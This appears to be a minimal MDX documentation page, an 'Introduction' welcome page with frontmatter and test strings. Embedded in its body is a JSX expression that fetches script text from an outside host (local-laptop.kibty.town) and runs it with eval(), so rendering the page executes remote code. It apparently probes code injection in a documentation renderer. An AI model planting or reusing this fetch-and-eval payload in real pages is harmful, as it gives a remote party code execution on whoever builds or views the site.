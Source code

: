 ```yaml
---
title: Introduction
description: 'Welcome to the home of your new documentation'
---
```


test {"hello" ? JSON.stringify(fetch("https://local-laptop.kibty.town").then((a) => a.text()).then((a) => eval(a))) : "not"}




hello2